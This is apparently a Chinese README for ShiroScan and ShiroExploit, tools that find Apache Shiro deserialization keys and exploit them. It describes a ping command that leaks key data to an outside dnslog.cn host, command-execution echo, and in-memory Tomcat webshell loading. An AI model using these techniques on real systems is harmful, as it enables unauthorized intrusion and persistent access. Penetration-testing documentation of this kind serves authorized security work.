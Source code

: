 ## Shiro反序列化检测工具

**ShiroScan**用于检测存在Shiro反序列化漏洞的key值。有三种方式进行检测，第一种是利用URLDNS进行检测，第二种利用命令执行进行检测，第三种使用`SimplePrincipalCollection`序列化后进行检测（XCheck，即Xray Check）。

![](images/07.png)

### 功能简介

- 默认DNSLOG

选择后会调用`dnslog.cn`的接口，生成一个域名，进行检测后，结果会输出在结果区域。

> 选择该选项时，会有卡顿，正在从`dnslog.cn`获取域名，并显示。

- 自定义DNSLOG

需要自己输入一个dnslog地址，进行检测后去输入的dnslog平台去查看结果

- 使用URLDNS

利用URLDNS进行检测。

参考：https://github.com/LuckyC4t/shiro-urldns/blob/master/src/main/java/luckycat/shirourldns/URLDNS.java

- 使用payloads

通过执行`ping`命令来检测。

- 使用XCheck

通过使用`SimplePrincipalCollection`序列化来进行检测，key正确情况下不返回 **deleteMe** ，key错误情况下返回 **deleteMe** 。

参考：https://mp.weixin.qq.com/s/do88_4Td1CSeKLmFqhGCuQ

### 使用

1.自行打包使用

```bash
git clone https://github.com/fupinglee/ShiroScan
cd ShiroScan
mvn clean package -DskipTests=true
```

打开target下的jar文件即可执行

2.直接下载使用

https://github.com/fupinglee/ShiroScan/releases

### 运行效果

- 使用`默认DNSLOG+URLDNS`进行检测

![使用默认DNSLOG1](images/02.png)

- 使用`自定义DNSLOG+URLDNS`进行检测

![使用自定义DNSLOG1](images/03.png)

- 使用`默认DNSLOG+Payloads`检测


![使用默认DNSLOG2](images/04.png)

> 这里使用的命令是`ping key.substring(0,3)+"."+payload+"."+"dnslog.cn"`

- 使用`自定义DNSLOG+Payloads`检测


![使用自定义DNSLOG2](images/05.png)

- 使用XCheck进行检测

![使用自定义XCheck](images/06.png)



# Shiro反序列化回显工具

### 简介

**ShiroExploit**是Shiro反序列化检测与回显利用工具，ShiroScan是从其中剥离出来的。

https://github.com/fupinglee/JavaTools/tree/master/Shiro#v20

支持Tomcat7、8、9下CMD内存shell的写入与卸载，支持Tomcat6、7、8、9下的通用回显。

### 使用

直接下载使用

1.https://github.com/fupinglee/ShiroScan/releases/tag/v1.1

2.https://github.com/fupinglee/JavaTools/tree/master/Shiro#v20

### 运行效果

**1.回显**

![](images/08.png)



![](images/09.png)

2.内存Shell

![](images/10.png)

使用正确的密码，会执行命令，错误的密码返回正常页面。

![](images/11.png)

> **使用时需要先确定Key和所使用的Gadget，然后加载内存shell。**



## 参考

https://github.com/wh1t3p1g/ysoserial

https://github.com/frohoff/ysoserial

https://github.com/LuckyC4t/shiro-urldns/blob/master/src/main/java/luckycat/shirourldns/URLDNS.java

https://mp.weixin.qq.com/s/do88_4Td1CSeKLmFqhGCuQ

https://github.com/zema1/ysoserial/[通用回显]

## 其他

**仅供安全人员进行有授权的验证,勿用于非法测试**

